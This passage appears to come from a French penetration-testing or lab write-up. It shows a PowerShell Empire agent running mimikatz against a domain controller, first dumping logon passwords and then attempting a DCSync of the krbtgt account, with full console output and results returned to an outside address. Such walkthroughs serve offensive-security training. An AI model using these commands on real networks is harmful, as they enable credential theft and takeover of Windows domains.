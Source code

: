 Bingo, on est bon, continuons de jouer avec Empire (commande: `ìnfo` pour avoir des détails sur un module).  
Nous allons utiliser principalement le module dcsync de mimikatz.

```
(Empire: L4GNAHWC) > mimikatz
[*] Tasked L4GNAHWC to run TASK_CMD_JOB
[*] Agent L4GNAHWC tasked with task ID 2
[*] Tasked agent L4GNAHWC to run module powershell/credentials/mimikatz/logonpasswords
(Empire: L4GNAHWC) > [*] Agent L4GNAHWC returned results.
Job started: KD4AUC
[*] Valid results returned by 151.80.230.58
[*] Agent L4GNAHWC returned results.
Hostname: ad.dev.pramacorp.fr / authority\system-authority\system

  .#####.   mimikatz 2.1.1 (x64) built on Nov 12 2017 15:32:00
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 28016 (00000000:00006d70)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 20/06/2018 19:24:54
..........

(Empire: L4GNAHWC) >             
(Empire: L4GNAHWC) > usemodule credentials/mimikatz/dcsync     
(Empire: powershell/credentials/mimikatz/dcsync) > set user krbtgt
(Empire: powershell/credentials/mimikatz/dcsync) > execute
[*] Tasked L4GNAHWC to run TASK_CMD_JOB
[*] Agent L4GNAHWC tasked with task ID 3
[*] Tasked agent L4GNAHWC to run module powershell/credentials/mimikatz/dcsync
(Empire: powershell/credentials/mimikatz/dcsync) > [*] Agent L4GNAHWC returned results.
Job started: K3MT2W
[*] Valid results returned by 151.80.230.58
[*] Agent L4GNAHWC returned results.
Hostname: ad.dev.pramacorp.fr / authority\system-authority\system

  .#####.   mimikatz 2.1.1 (x64) built on Nov 12 2017 15:32:00
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # lsadump::dcsync /user:krbtgt
[DC] 'dev.pramacorp.fr' will be the domain
[DC] 'ad.dev.pramacorp.fr' will be the DC server
[DC] 'krbtgt' will be the user account
ERROR kull_m_rpc_drsr_CrackName ; CrackNames (name status): 0x00000003 (3) - ERROR_NOT_UNIQUE
[*] Valid results returned by 151.80.230.58
```
